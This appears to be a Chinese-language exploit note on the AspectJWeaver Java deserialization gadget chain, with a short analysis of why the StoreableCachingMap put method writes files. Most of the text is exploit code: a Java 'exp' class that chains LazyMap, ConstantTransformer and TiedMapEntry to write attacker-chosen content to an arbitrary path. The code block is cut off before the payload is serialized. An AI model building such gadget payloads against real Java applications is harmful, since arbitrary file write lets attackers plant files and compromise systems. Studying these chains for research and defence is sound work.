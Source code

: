 # AspectJWeaver

AspectWeaver时java语言的AOP实现，很多语法已经成为AOP领域的标准。本条链子是一条任意文件写入的利用链。但是`non RCE`,在上次的d3ctf中已经起飞了。

## exp

```java
public class AspectJWeaver {

	public static void main(String[] args) throws Exception {

		String fileName    = "123.txt";
		String filePath    = "/Users/phoebe/Downloads";
		String fileContent = "su18 is here";

		// 初始化 HashMap
		HashMap<Object, Object> hashMap = new HashMap<>();

		// 实例化  StoreableCachingMap 类
		Class<?>       c           = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
		Constructor<?> constructor = c.getDeclaredConstructor(String.class, int.class);
		constructor.setAccessible(true);
		Map map = (Map) constructor.newInstance(filePath, 10000);

		// 初始化一个 Transformer，使其 transform 方法返回要写出的 byte[] 类型的文件内容
		Transformer transformer = new ConstantTransformer(fileContent.getBytes(StandardCharsets.UTF_8));

		// 使用 StoreableCachingMap 创建 LazyMap 并引入 TiedMapEntry
		Map          lazyMap = LazyMap.decorate(map, transformer);
		TiedMapEntry entry   = new TiedMapEntry(lazyMap, fileName);

		// entry 放到 HashSet 中
		HashSet set = SerializeUtil.generateHashSet(entry);
```



## 分析

### SimpleCache$StoreableCachingMap

可以看到这个类的put方法，会将key和value，来作为参数调用write

![image-20220515103646076](https://gitee.com/ddem0/typora-pic/raw/master/images/image-20220515103646076.png)

所以如果可以的话

```java
Class<?>       c           = Class.forName("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
Constructor<?> constructor = c.getDeclaredConstructor(String.class, int.class);
constructor.setAccessible(true);
HashMap<String, Object> map = (HashMap) constructor.newInstance("/tmp/", 10000);
map.put("123.txt", "aaa".getBytes(StandardCharsets.UTF_8));
```

### LazyMap

我们在CC链中，我们通过它来触发transform方法，但是他在后面会调用put.

